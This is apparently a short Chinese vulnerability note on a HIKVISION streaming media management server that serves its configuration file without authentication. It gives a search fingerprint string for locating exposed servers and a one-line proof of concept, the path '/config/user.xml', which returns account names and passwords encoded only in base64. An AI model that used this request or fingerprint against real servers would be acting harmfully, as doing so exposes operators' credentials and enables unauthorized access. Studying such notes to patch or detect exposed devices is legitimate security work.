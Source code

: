# HIKVISION 流媒体管理服务器 user.xml 账号密码泄漏漏洞

## 漏洞描述

HIKVISION 流媒体管理服务器配置文件未做鉴权，攻击者通过漏洞可以获取网站账号密码

## 漏洞影响

<a-checkbox checked>HIKVISION 流媒体管理服务器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"杭州海康威视系统技术有限公司 版权所有"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628165281195-23ed2181-1200-4dad-bf4a-047e382c34f4.png)

验证POC

```plain
/config/user.xml
```

![img](../../../.vuepress/public/img/1628165582265-eddb47a5-1100-40bf-9d92-4d9e9aad3dc0.png)

图中账号密码为base64加密